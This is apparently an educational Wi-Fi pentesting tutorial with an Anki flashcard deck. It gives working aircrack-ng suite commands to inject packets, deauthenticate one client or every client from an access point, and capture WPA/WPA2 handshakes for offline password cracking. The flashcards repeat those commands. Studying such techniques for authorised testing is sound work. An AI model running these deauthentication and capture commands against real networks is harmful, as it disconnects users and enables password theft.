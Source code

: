 # Chain #4: Generating Traffic & Deauthentication

This chain explains how to use **Aireplay-ng** to generate traffic and perform deauthentication attacks. Aireplay-ng is essential when we need to:
- Capture WPA/WPA2 4-way handshakes by forcing clients to reconnect.
- Test whether our wireless card supports **packet injection**.
- Simulate client traffic on the target network.

---

## Step 1: Prepare the Wireless Interface

Before using Aireplay-ng, ensure the wireless interface is in **monitor mode** and tuned to the correct channel.

```bash
sudo airmon-ng start wlan0 6
```

- `wlan0` → your wireless interface.
- `6` → the target channel (replace with the real channel).
- The interface will usually be renamed to `wlan0mon`.

**If you're already in monitor mode, retune quickly before deauth/capture:**
```
sudo iw dev wlan0mon set channel <CHANNEL>
```
- Prevents the classic “waiting for beacon on the wrong channel” issue before you deauth or capture handshakes.

**Verify monitor mode:**

```bash
iwconfig
```

Look for `Mode:Monitor` in the output.

---

## Step 2: Test for Packet Injection

Before attacking, confirm your card can inject packets:

```bash
sudo aireplay-ng --test wlan0mon
```

- Aireplay-ng sends test probe requests.
- If you see **"Injection is working!"**, your card supports packet injection.

---

## Step 3: Scan for Access Points and Clients

Use Airodump-ng to identify APs and clients:

```bash
sudo airodump-ng wlan0mon
```

- `BSSID` → MAC address of the AP.
- `CH` → Channel.
- `ESSID` → Network name.
- `STATION` → Clients connected to the AP.

Take note of:
- The **AP BSSID** (target).
- The **client MAC** (optional — for targeted deauth).

---

## Step 4: Perform Deauthentication Attack

### Option A: Target a Specific Client

```bash
sudo aireplay-ng -0 5 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon
```

- `-0` → deauthentication attack.
- `5` → number of deauth packets to send (`0` = infinite).
- `-a <AP_BSSID>` → target AP MAC address.
- `-c <CLIENT_MAC>` → target client MAC address.
- `wlan0mon` → monitor interface.

This disconnects the specified client, forcing it to reconnect (useful for capturing WPA/WPA2 handshakes).

### Option B: Deauthenticate All Clients

```bash
sudo aireplay-ng -0 10 -a <AP_BSSID> wlan0mon
```

- This disconnects **all clients** connected to the AP.

---

## Step 5: Capture the Handshake

While sending deauth packets, run Airodump-ng to capture the WPA handshake:

```bash
sudo airodump-ng -c <CHANNEL> --bssid <AP_BSSID> -w capture wlan0mon
```

- `-c <CHANNEL>` → lock to the AP’s channel.
- `--bssid <AP_BSSID>` → target AP.
- `-w capture` → write to `capture.cap` file.

Watch for `WPA handshake: <AP_BSSID>` in the top-right corner of Airodump-ng.

---

## Step 6: Notes on Effectiveness

- **Protected Management Frames (PMF)** in WPA3 prevent deauth attacks.
- On WPA2, this is still highly effective.
- If clients reconnect automatically, you’ll capture the handshake quickly.
- If no clients are connected, you may need to **wait** or use another attack (e.g., Evil Twin).

---

## Anki Deck:

```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

G1x7tF9dL3	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	What Aireplay-ng command tests if your Wi-Fi card supports packet injection?	<code>sudo aireplay-ng --test &lt;interface&gt;</code>	wifi
H4p2cJ8mT6	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	What Aireplay-ng command deauthenticates a specific client from an AP?	<code>sudo aireplay-ng -0 &lt;count&gt; -a &lt;AP_BSSID&gt; -c &lt;CLIENT_MAC&gt; &lt;interface&gt;</code>	wifi
I5m9vK6qR1	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	What Aireplay-ng command deauthenticates all clients from an AP?	<code>sudo aireplay-ng -0 &lt;count&gt; -a &lt;AP_BSSID&gt; &lt;interface&gt;</code>	wifi
J2s8xH4nL7	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	What Airodump-ng command captures packets on a specific AP and channel, saving output to a file?	<code>sudo airodump-ng -c &lt;CHANNEL&gt; --bssid &lt;AP_BSSID&gt; -w &lt;filename&gt; &lt;interface&gt;</code>	wifi
K0z3bD7pV8	Basic (type in the answer)	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	What command puts a Wi-Fi card into monitor mode on a specific channel using Airmon-ng?	<code>sudo airmon-ng start &lt;interface&gt; &lt;channel&gt;</code>	wifi

L2e6nF7tL1	Basic	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	What is a deauthentication attack in Wi-Fi pentesting?	An attack that forces clients to disconnect from an AP by sending spoofed deauth frames, often used to capture WPA handshakes.	wifi
M5m0xJ8rQ2	Basic	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	What does packet injection mean in Wi-Fi security testing?	The ability of a Wi-Fi card to craft and transmit custom frames into a wireless network.	wifi
N3t4bH9qP7	Basic	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	What is a WPA handshake and why is it important?	A 4-packet exchange between a client and AP when connecting to a WPA/WPA2 network. Capturing it allows offline password cracking.	wifi
O1p9dK6mR5	Basic	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	Why are deauthentication attacks ineffective against WPA3?	Because WPA3 uses Protected Management Frames (PMF), which authenticate and protect management frames like deauth packets.	wifi
P8q7fM2nL6	Basic	Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication	What is the purpose of the <code>-0</code> option in Aireplay-ng?	It initiates a deauthentication attack.	wifi
mQ6eV9tLrB Basic (type in the answer) Ops::WiFi Gym::Chain 04: Generating Traffic & Deauthentication Which command quickly retunes a monitor interface to channel 1 before a deauth? <code>sudo iw dev wlan0mon set channel 1</code> wifi
```